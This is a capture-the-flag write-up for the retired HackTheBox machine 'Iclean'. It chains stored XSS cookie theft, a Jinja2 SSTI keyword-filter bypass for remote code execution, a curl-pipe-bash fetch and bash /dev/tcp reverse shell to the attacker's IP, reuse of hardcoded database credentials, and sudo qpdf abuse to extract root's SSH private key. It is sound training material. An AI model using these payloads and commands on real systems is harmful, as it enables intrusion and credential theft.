# Iclean

```
Platform    : HackTheBox
OS          : Linux
Difficulty  : Medium
Category    : Web / XSS / SSTI
IP          : 10.129.170.12
```

---

## Summary

Initial access started with a stored XSS in a public contact form,
used to steal an authenticated admin's session cookie (the
`HttpOnly` flag was disabled) and reach a hidden admin dashboard.
From there, a Server-Side Template Injection (SSTI) was found in the
QR code generation feature, bypassed a keyword filter, and led to
remote code execution as `www-data`. Database credentials found in
the application's source code exposed password hashes for other
users; cracking one of them allowed lateral movement to a second
local user, who had passwordless `sudo` access to `qpdf` — abused to
exfiltrate root's SSH private key and log in directly as root.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn --open 10.129.170.12 -oN scan.txt
nmap -p 22,80 -sCV 10.129.170.12
```

Key findings:

- **Port 22** — OpenSSH 8.9p1 (Ubuntu)
- **Port 80** — Apache 2.4.52 (Ubuntu), hosting "Capiclean", a
  cleaning-services site (`capiclean.htb`, added to `/etc/hosts`)

---

## Exploiting XSS

The public `/quote` contact form accepted unsanitized input, allowing
HTML injection:





An `` tag pointing to a local HTTP listener was used to confirm
the injection actually executed in a browser, since a broken image
load triggers the `onerror` event:



The payload was then extended to exfiltrate the victim's session
cookie through that same `onerror` handler, since `HttpOnly` was
disabled on the session cookie (allowing JavaScript to read it):

```html

```



The stolen session cookie was set in the browser to hijack the
authenticated (admin) session:



Directory enumeration surfaced additional endpoints, including a
`/dashboard` — normally redirecting unauthenticated users away, but
accessible with the hijacked admin session:

```
gobuster dir -u http://capiclean.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200
```

```
about       (Status: 200)
login       (Status: 200)
services    (Status: 200)
team        (Status: 200)
quote       (Status: 200)
logout      (Status: 302) [--> /]
dashboard   (Status: 302) [--> /]
choose      (Status: 200)
```


---

## SSTI

Response headers indicated a Python/Flask backend — a signal worth
testing for Server-Side Template Injection wherever user input flows
into a rendered template. The dashboard's invoice and QR features
were the relevant candidates:



An invoice was generated to obtain a valid ID, then used to generate
a QR code:



The QR generation flow accepted a `qr_link` value used to produce a
"scannable invoice." Intercepting and modifying that request with a
basic SSTI probe:

```
invoice_id=&form_type=scannable_invoice&qr_link={{7*7}}
```



The response reflected the evaluated result (`49`), confirming
template injection:



Direct use of common SSTI keywords (`__globals__`, `popen`, etc.) was
filtered. A known filter-bypass technique (documented in
PayloadsAllTheThings' SSTI cheatsheet) uses hex-encoded attribute
names chained through `attr()` to reach the same objects indirectly:

```
qr_link={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



---

## Foothold

A local `index.html` containing a one-liner reverse shell was hosted
via `python3 -m http.server`, and the same SSTI bypass was used to
fetch and execute it:

```
qr_link={{...|attr('popen')('curl 10.10.14.143 | bash')|attr('read')()}}
```



```
bash -i >& /dev/tcp/10.10.14.143/443 0>&1
```

Caught on a listener:

```
nc -lvnp 443
```

```
www-data@iclean:/opt/app$
```

The shell was stabilized with a standard PTY upgrade
(`python3 -c 'import pty; pty.spawn("/bin/bash")'` followed by
`stty raw -echo; fg`).

Reading the application source (`app.py`) revealed hardcoded MySQL
credentials:

```python
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

---

## Lateral Movement to Consuela

The exposed credentials granted direct database access:

```
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean
```

```
mysql> select * from users;
+----+----------+--------------------------------------+
| id | username | password                              |
+----+----------+--------------------------------------+
|  1 | admin    | 2ae316f10d...                          |
|  2 | consuela | 0a298fdd4d...                          |
+----+----------+--------------------------------------+
```

`consuela`'s hash was cracked using hashes.com:



```
0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa : simple and clean
```

Used to switch users directly:

```
su consuela
Password: simple and clean
```

---

## Privilege Escalation to Root

Checking `sudo` permissions as `consuela`:

```
sudo -l
```

```
User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

`qpdf` can embed arbitrary files as PDF attachments, including files
the invoking user wouldn't normally be able to read on their own —
since it runs as root via `sudo`, it was used to package root's SSH
private key into a PDF, then extract it back out:

```
sudo qpdf --empty --add-attachment /root/.ssh/id_rsa --key=x -- /tmp/output2.pdf
qpdf --show-attachment=x /tmp/output2.pdf
```

The extracted key was saved locally, permissions corrected to `600`
(required by SSH), and used to log in directly as root:

```
chmod 600 root.key
ssh -i root.key root@capiclean.htb
```

```
root@iclean:~# cat root.txt
```

---

## Lessons Learned

- A disabled `HttpOnly` flag turns any XSS into full session
  hijacking — worth checking cookie flags early whenever an XSS is
  found, since it changes the impact from "cosmetic" to "account
  takeover."
- Response headers (framework fingerprinting) are a cheap, reliable
  signal for where to look for SSTI — a Flask/Jinja2 backend combined
  with any field that ends up rendered back to the user is worth
  testing with a simple `{{7*7}}` probe before assuming a feature is
  safe.
- Keyword-based SSTI filters are commonly bypassable through
  alternate attribute-access chains (hex-encoded dunder names,
  `attr()` chaining) — blocklisting specific strings rarely stops
  template injection once the injection point itself is confirmed.
- Hardcoded database credentials in application source are a
  near-universal find once RCE is achieved, and are worth treating as
  a pivot point immediately (credential reuse, other users' hashes),
  not just a database access.
- Unusual `sudo` grants for specific binaries (`qpdf` here) should
  always be checked against GTFOBins-style abuse potential — file
  manipulation utilities are a common and easy-to-miss root path.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
